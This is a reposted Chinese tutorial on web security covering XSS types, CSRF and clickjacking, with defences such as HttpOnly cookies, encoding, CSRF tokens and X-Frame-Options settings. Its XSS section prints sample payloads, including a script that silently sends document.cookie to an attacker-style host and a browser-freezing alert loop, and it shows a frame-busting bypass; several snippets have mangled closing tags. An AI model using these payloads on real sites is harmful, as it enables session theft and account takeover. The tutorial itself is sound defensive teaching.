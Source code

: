 ```yaml
---
title: 【转载】关于XSS攻击和CSRF攻击
description: '-'
tags:
  - WEB开发
  - Web安全
abbrlink: '70e37285'
date: 2021-03-28 18:28:16
---
```




## 前端安全知识—关于XSS攻击和CSRF攻击

[珠峰培训](javascript:void(0);) *2019-04-05*



> 原文链接：https://mp.weixin.qq.com/s/zDaksmeNKbv75al_jz1ZOg



**XSS**



xss: 跨站脚本攻击（Cross Site Scripting）是最常见和基本的攻击 WEB 网站方法，攻击者通过注入非法的 html 标签或者 javascript 代码，从而当用户浏览该网页时，控制用户浏览器。



**xss 主要分为三类：**



**DOM xss :**



DOM即文本对象模型，DOM通常代表在html、xhtml和xml中的对象，使用DOM可以允许程序和脚本动态的访问和更新文档的内容、结构和样式。它不需要服务器解析响应的直接参与，触发XSS靠的是浏览器端的DOM解析，可以认为完全是客户端的事情。



**反射型 xss :**



反射型XSS也被称为非持久性XSS，是现在最容易出现的一种XSS漏洞。发出请求时，XSS代码出现在URL中，最后输入提交到服务器，服务器解析后在响应内容中出现这段XSS代码，最后浏览器解析执行。



**存储型 xss :**



存储型XSS又被称为持久性XSS，它是最危险的一种跨站脚本，相比反射型XSS和DOM型XSS具有更高的隐蔽性，所以危害更大，因为它不需要用户手动触发。 允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提交一段XSS代码后，被服务器端接收并存储，当所有浏览者访问某个页面时都会被XSS，其中最典型的例子就是留言板。



**跨站脚本攻击可能造成以下影响：**



- 利用虚假输入表单骗取用户个人信息。

  

- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

  

- 显示伪造的文章或图片。



**存储型 xss 案例**



在项目开发中，评论是个常见的功能，如果直接把评论的内容保存到数据库，那么显示的时候就可能被攻击。



如果你只是想试试 xss，可以这样：



```
<fontsize="100"color="red">试试水font>
```



![图片](http://blog.cdn.ionluo.cn/blog/640.webp)

如果带点恶意，可以这样：



```
<script>while (true) {          alert('Hello')      }script>
```



这时，网站就挂了。



当然，最常见 xss 攻击是读取 Cookie：



```
<script>      alert(document.cookie)script>
```



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225616.webp)

Cookie 发送给攻击者的站点：



```
var img =document.createElement('img')  img.src='http://www.xss.com?cookie=' +document.cookie  img.style.display='none'document.getElementsByTagName('body')[0].appendChild(img)
```



当前用户的登录凭证存储于服务器的 session 中，而在浏览器中是以 cookie 的形式存储的。如果攻击者能获取到用户登录凭证的 Cookie，甚至可以绕开登录流程，直接设置这个 Cookie 值，来访问用户的账号。



**防御**



按理说，只要有输入数据的地方，就可能存在 XSS 危险。



httpOnly: 在 cookie 中设置 HttpOnly 属性后，js脚本将无法读取到 cookie 信息。



```
// koa  ctx.cookies.set(name,value, {      httpOnly:true// 默认为 true  })  `
```



**过滤**



输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。



不仅仅是前端负责，后端也要做相同的过滤检查。

因为攻击者完全可以绕过正常的输入流程，直接利用相关接口向服务器发送设置。



HtmlEncode某些情况下，不能对用户数据进行严格过滤，需要对标签进行转换



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225606.webp)

当用户输入, 最终保存结果为

<script>window.location.href="http://www.baidu.com"</script>, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。



JavaScriptEncode对下列字符加上反斜杠

![图片](http://blog.cdn.ionluo.cn/blog/640.webp)

**CSRF**



csrf：跨站点请求伪造（Cross-Site Request Forgeries），也被称为 one-click attack 或者 session riding。冒充用户发起请求（在用户不知情的情况下）， 完成一些违背用户意愿的事情（如修改用户信息，删初评论等）。



**可能会造成以下影响：**



- 利用已通过认证的用户权限更新设定信息等；
- 利用已通过认证的用户权限购买商品；
- 利用已通过的用户权限在留言板上发表言论。



一张图了解原理：



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225552.webp)



简而言之：网站过分相信用户。



**与 xss 区别**



通常来说 CSRF 是由 XSS 实现的，CSRF 时常也被称为 XSRF（CSRF 实现的方式还可以是直接通过命令行发起请求等）。



本质上讲，XSS 是代码注入问题，CSRF 是 HTTP 问题。XSS 是内容没有过滤导致浏览器将攻击者的输入当代码执行。CSRF 则是因为浏览器在发送 HTTP 请求时候自动带上 cookie，而一般网站的 session 都存在 cookie里面。



来自某乎的一个栗子：



![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225574.webp)



**防御**



- 验证码；强制用户必须与应用进行交互，才能完成最终请求。此种方式能很好的遏制 csrf，但是用户体验比较差。

  

- 尽量使用 post ，限制 get 使用；上一个例子可见，get 太容易被拿来做 csrf 攻击，但是 post 也并不是万无一失，攻击者只需要构造一个form就可以。

  

- Referer check；请求来源限制，此种方法成本最低，但是并不能保证 100% 有效，因为服务器并不是什么时候都能取到 Referer，而且低版本的浏览器存在伪造 Referer 的风险。

  

- token；token 验证的 CSRF 防御机制是公认最合适的方案。



整体思路如下：



第一步：后端随机产生一个 token，把这个token 保存到 session 状态中；同时后端把这个token 交给前端页面；



第二步：前端页面提交请求时，把 token 加入到请求数据或者头信息中，一起传给后端；



后端验证前端传来的 token 与 session 是否一致，一致则合法，否则是非法请求。



若网站同时存在 XSS 漏洞的时候，这个方法也是空谈。



**Clickjacking**



Clickjacking： 点击劫持，是指利用透明的按钮或连接做成陷阱，覆盖在 Web 页面之上。然后诱使用户在不知情的情况下，点击那个连接访问内容的一种攻击手段。这种行为又称为界面伪装(UI Redressing) 。



大概有两种方式：



- 攻击者使用一个透明 iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的 iframe 页面；
- 攻击者使用一张图片覆盖在网页，遮挡网页原有的位置含义。



**案例**



一张图了解

![图片](http://blog.cdn.ionluo.cn/blog/640-1609826225556.webp)

一般步骤



- 黑客创建一个网页利用 iframe 包含目标网站；
- 隐藏目标网站，使用户无法无法察觉到目标网站存在；
- 构造网页，诱变用户点击特点按钮
- 用户在不知情的情况下点击按钮，触发执行恶意网页的命令。



**防御**



X-FRAME-OPTIONS；

X-FRAME-OPTIONS HTTP 响应头是用来给浏览器指示允许一个页面可否在<frame>, <iframe> 或者 <object> 中展现的标记。网站可以使用此功能，来确保自己网站内容没有被嵌到别人的网站中去，也从而避免点击劫持的攻击。



有三个值：



DENY：表示页面不允许在 frame 中展示，即便是在相同域名的页面中嵌套也不允许。

SAMEORIGIN：表示该页面可以在相同域名页面的 frame 中展示。

ALLOW-FROM url：表示该页面可以在指定来源的 frame 中展示。



**配置 X-FRAME-OPTIONS：**



Apache 

把下面这行添加到 'site' 的配置中：



```
Header always append X-Frame-Options SAMEORIGIN
```





nginx



把下面这行添加到 'http', 'server' 或者 'location'，配置中



```
add_header X-Frame-Options SAMEORIGIN;
```



IIS



添加下面配置到 Web.config 文件中



```
  <system.webServer>...<httpProtocol>  <customHeaders>    <add name="X-Frame-Options" value="SAMEORIGIN" />  </customHeaders></httpProtocol>...</system.webServer>
```



js 判断顶层窗口跳转，可轻易破解，意义不大；



```
function locationTop(){  if (top.location != self.location) {     top.location = self.location; return false;  }  return true;  }locationTop();
```



```
// 破解：// 顶层窗口中放入代码var location = document.location;//或者var location = "";
```